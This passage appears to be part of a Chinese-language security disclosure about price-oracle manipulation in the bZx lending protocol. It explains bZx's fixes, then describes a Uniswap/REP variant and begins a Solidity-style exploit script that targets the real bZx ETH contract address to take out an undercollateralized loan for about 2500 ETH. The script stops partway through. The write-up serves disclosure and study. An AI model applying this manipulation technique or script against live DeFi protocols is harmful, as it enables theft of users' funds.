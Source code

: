 ```javascript
#### finished executing step: exploit
*/
```

#### 解决方案

bZx团队可以通过修改预言机逻辑来阻止这种攻击，这样，如果抵押品和贷款代币都是DAI或WETH，那么汇率将直接从Maker的预言机中加载。



但是，由于Kyber选择最佳汇率的方式，该解决方案并不完整。如果你还记得，Kyber会通过确定A/ETH和ETH/B的最佳汇率来确定A/B的最佳汇率，然后计算通过交易A获得的ETH可以购买的B数量。

这意味着如果我们要尝试使用DAI作为抵押品借入非ETH代币(例如USDC)，则Kyber首先将确定DAI/ETH的最佳汇率，然后确定ETH/USDC的最佳汇率，最后确定最佳汇率DAI/USDC。因为我们可以人为地增加DAI/ETH的汇率，所以即使我们不控制”许可“的USDC储备金，我们仍然可以操纵DAI/USDC的汇率。

bZx团队以两种方式阻止了此攻击：

1. 如果贷款代币或抵押代币不是ETH，则bZx将手动确定代币与ETH之间的汇率，除非
2. 贷款代币或抵押代币是基于美元的稳定币，在此案例中，bZx将使用Maker预言机中的汇率

### Uniswap

机敏的读者可能会注意到，此时bZx的解决方案仍然无法为任意代币处理不正确的FMV。这意味着，如果我们可以找到另一个可以操纵的”许可“准备金，那么我们可以进行另一笔抵押不足的贷款。

筛选出所有列入白名单的代币的已注册”许可“储备金后，我们注意到REP代币是与Uniswap集成的储备金。从对DDEX的攻击中我们已经知道Uniswap的价格可以被操纵，因此我们可以重新调整以前的攻击目标，并将Eth2Dai和DAI替代为Uniswap和REP。

#### 攻击演示

以下脚本将通过以下方式获利约2500ETH：

1. 在Uniswap的REP交易所执行大订单购买，将价格从0.05ETH/REP提高到6.05ETH/REP
2. 使用REP作为抵押品从bZx借入ETH
3. 取消所有订单并将所有资产兑换为ETH

```javascript
contract BZxUniswapExploit is Script, Constants, TokenHelper, BZxHelpers {
    BZxLoanTokenV3Like private constant BZX_ETH = BZxLoanTokenV3Like(0x77f973FCaF871459aa58cd81881Ce453759281bC);
    
    uint constant private INITIAL_BALANCE = 5000 ether;
    
    function setup() public {
        name("bzx-uniswap-exploit");
        blockNumber(8547500);
    }
    
    function run() public {
        begin("exploit")
            .withBalance(INITIAL_BALANCE)
            .first(this.checkRates)
            .then(this.makeOrder)
            .then(this.checkRates)
            .then(this.borrow)
            .then(this.cleanup)
            .finally(this.checkProfits);
    }
    
    uint constant rateCheckAmount = 10 ether;
    
    function checkRates() external {
        (uint rate, uint slippage) = KYBER_NETWORK.getExpectedRate(REP, KYBER_ETH, rateCheckAmount);
        printf("checking rates tokens=%.18u rate=%.18u slippage=%.18u\n", abi.encode(rateCheckAmount, rate, slippage));
    }
    
    function makeOrder() external {
```